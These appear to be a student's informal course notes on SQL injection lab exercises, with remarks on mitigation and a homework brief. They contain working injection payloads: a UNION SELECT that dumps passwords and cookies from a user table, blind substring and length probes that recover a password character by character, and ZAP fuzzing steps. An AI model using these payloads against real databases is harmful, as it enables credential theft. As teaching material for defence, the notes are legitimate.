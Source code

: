 * solve togheter home-work 1
* SQL mitigation

-----------------------------------------------
## ex 3

one with concatenate query
`
shit
`
one with union
`
' UNION SELECT userid, name, password, cookie, null, null, null FROM user_system_data WHERE '1' = '1
`
## ex 5

register a new user
`
fake' AND substring(password, 1, 8) = 'password' --
`
```
; binary search, divide et impera
tom' AND substring(password, 1, 1) > 'h' --  // true
tom' AND substring(password, 1, 1) > 'q' --  // true
tom' AND substring(password, 1, 1) > 't' --  // false
tom' AND substring(password, 1, 1) = 't' --  // true

tom' AND substring(password, 2, 1) > 'h' --  // false
tom' AND substring(password, 2, 1) = 'h' --  // true
```
and so on...

OR use zap
open firefox proxy 
to log our request: do the request by hand, find in the history the request and open with manuale request editor 
OR 
find in the history the request and open it with attack-> fuzz
highlight what needs to change and clic add, then write all the alphabet needed, when higlight the number and user numberzz where clicking add.


to know the password length
`
tom' and length(password)=22 --
`

-------------------------------------------------
---------------------------------------------
slides

fix SQL injection
> prepared statements/parameterized queries

## prepared statements 
use the question mark as a placeholder for the query.
and write the list of parameters.

## parametrize queries



https://github.com/emavgl/sqli_mitigation_exercise
1 or 1=1 


-----------------------------------

homework-2
https://github.com/emavgl/sectest_homework_2
find SQL injections and fix them with prepared statement
one exploit
one fix
one non exploit
deliver through google form